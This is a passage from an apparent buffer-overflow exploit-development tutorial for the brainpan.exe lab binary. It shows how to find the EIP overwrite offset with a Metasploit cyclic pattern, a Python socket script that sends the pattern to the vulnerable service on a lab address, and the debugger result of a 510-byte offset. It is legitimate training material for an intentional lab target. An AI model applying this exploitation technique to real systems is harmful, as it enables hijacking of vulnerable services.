


# Finding the Offset

In the preceding section, we employed a fuzzing script to identify an approximate byte size at which the `brainpan.exe` process experienced a crash. Initially, the buffer overflowed with a size of "1000 bytes." Now, our objective is to pinpoint the precise offset at which the `EIP` (Extended Instruction Pointer) was overwritten.

To achieve this, we'll create a unique pattern using the `Metasploit` module `pattern_create.rb`, generating the pattern based on the results obtained from the previous fuzzing process.

The generated string is a unique sequence of characters used to pinpoint the exact moment when a program's memory is tampered with during a buffer overflow. By recognizing this string in the program's memory, you can figure out the specific location (offset) where important program control information, like the `EIP`, is overwritten. This information is crucial for crafting a better payload for a buffer overflow exploit.



Subsequently, we will transmit this generated pattern to the TCP server to determine the exact point at which the `EIP` was overwritten. For this purpose, I've crafted another Python script called [brainpan_fuzzer2.py](https://github.com/cris-m/buffer_overflow_exploit_development/blob/main/assets/resources/brainpan_fuzzer2.py).

```python
#!/usr/bin/python3
import sys
import socket

buffer = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2B"

while True:
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect(('192.168.10.4', 9999))
        payload = b'shitstorm /.:/' + buffer
        sock.send(payload)
        sock.close()
    except:
        print("Error connecting to the server")
        sys.exit()
```

After executing this script, it effectively triggered a buffer overflow. I subsequently examined the Windows environment using `Immunity Debugger` to identify the precise value stored in the `EIP` register, which turned out to be `41307241`. This value represents the specific memory address of the next instruction to be executed after the buffer is overwritten.


Next, we will use another `Metasploit` module called `pattern_offset.rb` to determine the exact offset. This offset calculation is based on the observed `EIP` value and the length of the previously generated pattern.



As illustrated in the screenshot above, we have successfully identified the exact buffer overflow offset, which is `510 bytes` (indicating that our buffer is overflown by 510 bytes). Our next step is to overwrite the `EIP` with a controlled value.

---

Next, we'll proceed to [Overwriting the EIP](https://github.com/cris-m/buffer_overflow_exploit_development/blob/main/assets/documentations/eip.md).